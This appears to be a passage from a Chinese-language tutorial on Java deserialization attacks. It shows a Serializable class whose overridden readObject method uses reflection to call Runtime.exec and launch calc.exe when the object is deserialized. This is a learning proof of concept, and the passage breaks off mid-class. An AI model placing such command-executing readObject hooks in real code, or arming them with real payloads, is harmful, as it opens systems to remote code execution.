 ```java

	public void setAge(Integer age) {
		this.age = age;
	}

	public String getName() {
		return name;
	}
	
    public void setName(String name) {
    	this.name = name;
    }
}
```



### 0x2、通过反射方法弹个计算器

 

step1中，我们通过重写readObject方法，直接在里面使用Runtime.getRuntime().exec("calc.exe")来执行代码。现在需要改造一下，使用反弹方法来实现，成功调试的代码如下。

```java
package Step2;

import java.io.File;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Method;

/*
 * 有了反射方法的基础，再结合step1，实现一个基于反射方法的弹计算器。
 * 在实现了Serializable的类中， 通过重写readObject方法来实现
 */

public class reflectionTest2 implements Serializable{

	private Integer age;
	private String name;
	
    public reflectionTest2() {}
	
    public reflectionTest2(String name,Integer age){ //构造函数，初始化时执行
    	this.age = age;
    	this.name = name;
    }
    
    private void readObject(java.io.ObjectInputStream in) throws IOException,ClassNotFoundException{
    	in.defaultReadObject();//调用原始的readOject方法
    	
    	try {//通过反射方法执行命令；
    	Method method= java.lang.Runtime.class.getMethod("exec", String.class);
    	Object result = method.invoke(Runtime.getRuntime(), "calc.exe");    
    	}
    	catch(Exception e) {
    		e.printStackTrace();
    	}
    }
```